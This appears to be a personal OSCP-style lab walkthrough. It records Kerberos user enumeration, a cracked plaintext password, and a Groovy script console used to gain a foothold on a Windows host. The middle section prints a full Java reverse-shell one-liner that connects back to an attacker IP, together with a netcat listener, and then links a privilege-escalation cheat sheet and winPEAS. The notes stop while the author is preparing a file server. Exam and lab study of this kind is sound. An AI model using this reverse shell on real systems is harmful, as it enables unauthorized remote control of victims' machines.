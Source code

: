 From the kerberos user enum and hash extract + crack I got


User: `nate@oscp.exam@OSCP.EXAM`
Pass: `mariposa`

username nate worked

Got access
![[Pasted image 20231219132956.png]]
Explored and found I can run groovy scripts
Found this
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
My IP: `192.168.49.140`

```
String host="192.168.49.140";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

net up nc listenetr
```
nc -nlvp
```

Now paste script and run

![[Pasted image 20231219133447.png]]


I'm in as nate
![[Pasted image 20231219133520.png]]

![[Pasted image 20231219133532.png]]

Cheatsheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

![[Pasted image 20231219134354.png]]

Tried to go to Admin


Now winpeas
https://github.com/carlospolop/PEASS-ng/releases/download/20231217-4a3b3f9d/winPEASany.exe

prep python web server in /Tools
```
python3 -m http.server 80
```
